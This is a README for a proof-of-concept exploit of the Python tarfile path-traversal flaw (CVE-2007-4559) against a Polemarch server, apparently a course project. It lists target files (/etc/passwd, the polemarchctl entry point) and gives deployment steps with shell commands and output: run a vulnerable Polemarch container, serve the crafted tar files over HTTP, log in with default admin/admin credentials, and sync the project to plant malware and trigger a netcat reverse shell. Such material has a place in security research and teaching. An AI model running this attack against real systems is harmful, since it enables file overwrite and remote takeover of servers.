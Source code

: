 # MALW
Malware UPC

## POC
Proof of concept using https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-4559 
and based on the work from https://www.trellix.com/en-us/about/newsroom/stories/research/tarfile-exploiting-the-world.html.

### Directories to attack
- /etc 
  -> passwd
- /opt/polemarch/bin: example **docker.tar** configured
  -> polemarchctl: entry point for docker

### Notes
- Binary files MUST have executable permissions
- Tar's can not be deployed twice
- Malware will be placed in an auxiliar folder which will be symlinked to target folder

## Instructions
In order to deploy the malware we will have to set up:

- Polemarch server 
- Server hosting the compromised tar files
- Nc listening to execute a reverse shell

First, deploy the polemarch server:

```bash
$: ./polemarch.sh 
+ docker rm polemarch -f
polemarch
+ docker run -d --name polemarch --restart always -v /opt/polemarch/projects:/projects -v /opt/polemarch/hooks:/hooks -p 8080:8080 vstconsulting/polemarch:1.8.5
fbbbd334a21694e760522172519d51e253f1d2bebb35f5b15a01a1b0b96fb518
```

Generate the tar files and host the tar files (example using python localhost server). Configure the server to listen in an interface
accesible from the docker container:

```bash
$: cd poc
$: python tar.py
+ set -o pipefail
+ python3 tar.py
+ python3 -m http.server --bind 172.17.0.1 3000
Serving HTTP on 172.17.0.1 port 3000 (http://172.17.0.1:3000/) ...
```

Log in to the polemarch server using default password (admin/admin) and
create a project with a the compromised tar file:

![Project](./images/project.png)

"Sync" the project, which will untar untar our compromised tar.

